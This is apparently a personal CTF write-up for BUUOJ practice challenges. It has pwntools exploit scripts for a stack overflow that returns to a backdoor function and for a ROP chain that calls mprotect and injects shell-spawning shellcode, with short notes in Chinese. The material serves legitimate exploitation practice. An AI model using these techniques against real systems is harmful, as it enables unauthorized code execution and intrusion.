 ```python
payload += p32(binsh)
payload += p32(binsh)

io.sendlineafter(b'Correct\n', payload)

io.interactive()
```
# buu012-bjdctf_2020_babystack

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27538)

elf = ELF('./pwn')

io.sendlineafter(b'length of your name:', b'1000')
io.sendlineafter(b'What\'s u name?', cyclic(0x10 + 8) + p64(elf.symbols['backdoor']))
io.interactive()
```
# buu013-get_started_3dsctf_2016
不知道为什么3dsctf里面不止一道题在挂exp脚本调试的时候recv收不到一开始发送的字符串，很奇怪，本来这一题直接返回到后门就好了，但是因为这个怪原因不得不用mprotect在其他地方再写一个shell，原来程序里面的后门就没用上 ~~（屑）~~
使用mprotect函数时传入的地址参数必须页对齐，size参数也必须是页的整数倍。权限填7表示可读可写可执行。本题中要修改的主要是下面这个页的属性，然后shellcode写在.got.plt段中，尝试修改bss段，写在bss段发现不行，可能是bss段中有一些重要数据之类。
![](1.png)
exp：
```python
from pwn import *
import time
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29364)
elf = ELF('./pwn')
mprotect = elf.symbols['mprotect']
start = 0x80eb000
length = 0x1000
bss = 0x803bf80
pop3 = 0x0809e4c5

payload = cyclic(0x38)
payload += p32(mprotect)
payload += p32(pop3)
payload += p32(start)
payload += p32(length)
payload += p32(7)
payload += p32(elf.symbols['read'])
payload += p32(pop3)
payload += p32(0)	# stdin
payload += p32(start)
payload += p32(0x80)
payload += p32(start)
# gdb.attach(io)
io.sendline(payload)

time.sleep(0.5)
io.sendline(asm(shellcraft.sh()))

```